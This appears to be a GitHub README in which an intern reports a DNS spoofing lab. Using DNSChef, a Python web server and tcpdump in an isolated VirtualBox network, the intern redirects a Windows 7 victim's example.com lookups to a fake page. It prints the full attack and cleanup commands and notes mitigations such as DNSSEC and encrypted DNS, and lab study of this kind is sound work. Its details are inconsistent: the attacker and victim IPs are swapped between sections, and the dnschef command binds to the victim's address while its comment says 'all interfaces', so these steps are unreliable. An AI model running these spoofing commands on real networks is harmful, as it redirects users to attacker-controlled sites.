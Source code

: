 # Task-6 — DNS Spoofing Attack

**Internship:** Broskieshub.com
**Objective :** I set up an isolated VirtualBox lab (`labnet`) and simulated a DNS spoofing attack to demonstrate how DNS responses can be manipulated to redirect a victim to an attacker‑controlled page.

---

## Lab setup
- Attacker (Kali): `192.168.56.20`  
- Victim (Win7): `192.168.56.10`  
- Network: VirtualBox **Internal Network** `labnet` (isolated from public internet)

![](Screenshots/kali_net.png)

![](Screenshots/win7_net.png)

![](Screenshots/kali_ip.png)

![](Screenshots/win7_ip.png)

> Note: I used only command‑line tools available on the VMs. No GUI interfaces or additional installs were used during testing.

![](Screenshots/tools_confirm.png)

---

## Commands I ran

**On Kali (attacker) — host fake site**
```bash
sudo mkdir -p /var/www/html/fake_example
echo "<html><body><h1>example.com — Internship Task 6 (Fake Page)</h1><p>This site is a lab demonstration used for DNS spoofing simulation.</p></body></html>" | sudo tee /var/www/html/fake_example/index.html
cd /var/www/html/fake_example
sudo python3 -m http.server 80
````

![](Screenshots/fakepage_server.png)

![](Screenshots/fakepage_browser.png)

**On Kali — start DNSChef (CLI) to spoof example.com**

```bash
# bind to all interfaces and spoof example.com to 192.168.56.20
sudo dnschef --interface 192.168.56.10 --fakeip 192.168.56.20 --fakedomains example.com
```

![](Screenshots/dnschef-running.png)

**On Kali — capture DNS traffic for evidence**

```bash
sudo tcpdump -i eth0 -n udp port 53
```

![](Screenshots/dns-tcpdump.png)

**On Windows 7 (victim) — flush DNS & test**

```cmd
ipconfig /flushdns
```

![](Screenshots/win7_flushdns.png)

---

## What happened
* From the victim (`192.168.56.20`) I ran `nslookup example.com` and received the spoofed A record `192.168.56.10` (attacker).
* Visiting `http://example.com` on the victim loaded the attacker‑hosted fake page, confirming successful DNS spoofing in the isolated lab.

![](Screenshots/attack_fakepage_in_win7.png)

---

## Short reflection 
> Performing this controlled lab helped me understand how DNS resolution can be abused to transparently redirect users to malicious sites. I observed that a single forged DNS reply can make a victim visit an attacker page, and that packet capture and DNS logging are essential evidence for analysis. Mitigations I noted include DNSSEC, encrypted DNS (DoH/DoT), and strict TLS certificate validation.

---

## Ethics & cleanup

* All testing was performed only on an isolated internal VirtualBox network (`labnet`).
* After testing I stopped the HTTP server and dnschef and removed the test content:

```bash
# on Kali
sudo pkill -f python3
sudo pkill dnschef || true
sudo rm -rf /var/www/html/fake_example
```
---
End of report.
